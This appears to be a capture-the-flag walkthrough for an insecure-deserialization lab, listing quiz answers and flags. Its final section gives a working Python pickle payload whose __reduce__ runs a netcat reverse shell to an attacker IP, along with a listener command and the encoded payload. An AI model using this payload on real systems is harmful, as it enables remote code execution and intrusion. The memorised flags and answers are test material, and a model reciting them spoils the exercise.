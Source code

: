 # Task 21~26

# Insecure Deserialization

## Who developed the Tomcat application?

### Answer

The Apache Software Foundation

## What type of attack that crashes services can be performed with insecure deserialization?

### Answer

denial of service

# Insecure Deserialization - Objects

# Select the correct term of the following statement:

### Answer

A Behaviour 

# Insecure Deserialization - Deserialization

## What is the name of the base-2 formatting that data is sent across a network as? 

### Answer

binary

#  Insecure Deserialization - Cookies

![picture 2](../../../images/fd2350203fa0af63b083268c767bb060135758ba363963e8e6f64b05a61bba12.png)  

## If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?

### Answer
webapp.com/login

## What is the acronym for the web technology that Secure cookies work over?

### Answer
https

# Insecure Deserialization - Cookies Practical

## 1st flag (cookie value)

![picture 3](../../../images/bd90f93ad78c757149908188da59cfb88b16d8dfdaa99b3e9f77187d70825286.png)  

```sh
echo -n "gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAZDYzOWIzNzUwMjM5NDM3ZTk4ZGZmOWM3NjEwOTYxZjlxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==" |base64 --decode
```

```md
}q(X    sessionIdqX d639b3750239437e98dff9c7610961f9qX
                                                      encodedflagqXTHM{good_old_base64_huh}qu.%
```

### Answer

qXTHM{good_old_base64_huh}

## 2nd flag (admin dashboard)

Change ```user``` to ```admin```

![picture 4](../../../images/49a5516ef71b9a744b4be496511e97d423073316ebde966a2bf601e7132416b4.png)  


### Answer

THM{heres_the_admin_flag}

# Insecure Deserialization - Code Execution

1. on local machine

Run nc listener

```sh
nc -lvnp 4444
```

Edit the python script with your VPN IP

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.18.1.159 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

Run python script and get the base64 command.

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTguMS4xNTkgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

Edit the encodedPayload and get remote access

![picture 5](../../../images/cf36245bbf73e5d342bd1415b85b9f8721d9d3795a5c74fe68f2587331765948.png)  

```
cat /home/cmnatic/flag.txt
```

### Answer

4a69a7ff9fd68